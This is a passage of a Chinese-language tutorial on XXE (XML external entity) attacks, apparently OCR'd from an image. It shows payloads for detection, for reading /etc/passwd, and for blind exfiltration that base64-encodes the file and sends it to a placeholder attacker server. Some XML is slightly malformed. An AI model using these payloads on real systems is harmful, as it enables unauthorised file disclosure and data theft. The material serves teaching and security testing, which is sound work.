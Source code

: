 start，goodies和end是为了组成CDATA，避免被XML解析器解析。

```xml
<foo><! [CDATA["/etc/fstab文件的内容"]]></foo>
```

**PHP中，php的filter协议转换为base64也可以绕过xml的解析器。**

## XXE

### XXE的检测

**首先检测XML可否被成功解析**  

```xml
?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE ANY [  
<!ENTITY name "HELLO">]>    
<root>&name;</root>
```

如果输出了HELLO，则说明可以被解析

**然后检测是否支持DTD外部引用外部实体**  

```xml
<?xml version=”1.0” encoding=”UTF-8”?>  
<!DOCTYPE ANY [  
<!ENTITY % name SYSTEM "http://localhost/index.html">  
%name;  
]>
```

如果支持，很可能存在XXE漏洞。

### XXE的利用

本质上就是利用各种协议，基于服务器上Web应用程序的权限，进行各种大于客户权限的操作。  

#### **任意文件读取**

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### **不回显：发送至服务器**

```xml
<!DOCTYPE foo[
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
    <!ENTITY % send SYSTEM 'http://yourServerIp/?%file'>
%file;
%send;
]>
```
